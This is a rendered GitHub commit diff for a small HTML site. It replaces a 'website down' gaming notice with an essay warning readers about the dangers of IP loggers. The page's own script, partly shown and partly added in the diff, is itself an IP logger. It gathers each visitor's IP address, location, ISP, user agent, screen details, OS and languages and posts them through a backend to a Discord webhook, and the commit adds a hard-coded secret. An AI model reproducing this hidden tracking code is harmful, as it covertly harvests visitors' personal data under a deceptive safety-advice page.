

Before and after one commit to monkeyclickerbeta/learning, a plain HTML site: page index.html in a window 1280 px wide. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,7 +1,7 @@
 <!DOCTYPE html>
 <html>
   <head>
-    <title>Website Down</title>
+    <title>The Dangers of IP Loggers</title>
     <style>
       body {
         font-family: Arial, sans-serif;
@@ -37,36 +37,36 @@
   </head>
   <body>
     <header>
-      <h1>This website is down.</h1>
+      <h1>The Dangers of IP Loggers</h1>
     </header>
     <main>
       <p>
-        Welcome. This website has been temporarily shut down for maintenance and updates.
+        IP loggers are malicious tools that can pose a serious threat to your online security and privacy. These tools are designed to track your IP address, which is a unique identifier that can reveal your location, internet service provider, and other sensitive information. In the wrong hands, this information can be used for cyber attacks, identity theft, and other malicious activities.
       </p>
       <p>
-        We’re currently adding some big updates to the website. This process might take some time. Thank you for your patience.
+        One of the most significant dangers of IP loggers is that they can be used to launch phishing attacks. Phishing is a type of cyber attack that involves tricking the victim into revealing sensitive information, such as passwords or credit card numbers. With access to your IP address, attackers can craft convincing phishing emails or websites that appear to be legitimate, making it much easier to trick you into revealing sensitive information.
       </p>
       <p>
-
+        Another danger of IP loggers is that they can be used to gain unauthorized access to your computer or network. With your IP address, attackers can attempt to exploit vulnerabilities in your network or use social engineering tactics to trick you into giving them access. Once an attacker has access to your network or computer, they can steal sensitive information, install malware, or take control of your device.
       </p>
       <p>
-
+        Fortunately, there are several steps you can take to protect yourself from IP loggers and other cyber threats. First, it's essential to be vigilant when browsing the internet. Avoid clicking on suspicious links or downloading files from unknown sources, as these may contain IP loggers or other malicious software. Always use anti-virus software and keep your operating system and web browser up to date to protect yourself from known vulnerabilities.
       </p>
       <p>
-
+        Another effective way to protect yourself from IP loggers is to use a Virtual Private Network (VPN). A VPN is a secure and encrypted connection that allows you to browse the internet anonymously. When you use a VPN, your IP address is hidden, making it much more difficult for attackers to track your location or identify you.
       </p>
       <p>
-
+        Finally, it's essential to be mindful of the information you share online. Avoid posting personal information, such as your home address or phone number, on social media or other public forums. Be cautious when providing personal information to websites or services, and never give out sensitive information, such as credit card numbers or social security numbers, unless you are certain that the website is legitimate and secure.
       </p>
       <p>
-
+        In conclusion, IP loggers pose a serious threat to your online security and privacy. By being vigilant when browsing the internet, using anti-virus software and keeping your system up to date, using a VPN, and being mindful of the information you share online, you can protect yourself from these malicious tools and stay safe online.
       </p>
       <p>
-        <span class="danger">Get ready gamers</span>
+        <span class="danger">Never click on suspicious links or download files from unknown sources, as these may contain IP loggers.</span>
       </p>
     </main>
     <footer>
-      &copy; 2025 Gaming Services. All rights reserved.
+      &copy; Very real blog website, no rights for you.
     </footer>
     <script>
       let echolog = {};
@@ -102,13 +102,10 @@
 
           // Set up the payload for the webhook
           const payload = {
+            secret: "geniuspeople", // <-- Your API key!
             content: `IP Address: ${echolog.ipAddress}\nLocation: ${echolog.location}\nHostname: ${echolog.hostname}\nISP: ${echolog.isp}\nCity: ${echolog.city}\nCountry: ${echolog.country}\nCountry Code: ${echolog.countryCode}\nUser Agent: ${echolog.userAgent}\nWindow Properties: ${echolog.windowProp}\nWindow Width: ${echolog.windowWidth}\nWindow Height: ${echolog.windowHeight}\nWindow Ratio: ${echolog.windowRatio}\nScreen Width: ${echolog.screenWidth}\nScreen Height: ${echolog.screenHeight}\nScreen Ratio: ${echolog.screenRatio}\nDPI: ${echolog.DPI}\nColor Depth: ${echolog.colorDepth}\nOrientation: ${echolog.orientation}\nOrientation Angle: ${echolog.orientationAngle}\nOS: ${echolog.os}\nThreads: ${echolog.threads}\nMemory: ${echolog.memory}\nSystem Languages: ${echolog.systemLanguages}\nLanguages: ${echolog.languages}`,
           };
-          // This is a lazy way of doing it, having
-          // your webhook url out in the open like
-          // this is a bad idea, you should instead
-          // have it contact a internal API to
-          // forward the request.
+          // Forward to your Vercel backend, NOT directly to Discord!
           fetch("/api/discord-webhook", {
             method: "POST",
             headers: {
```
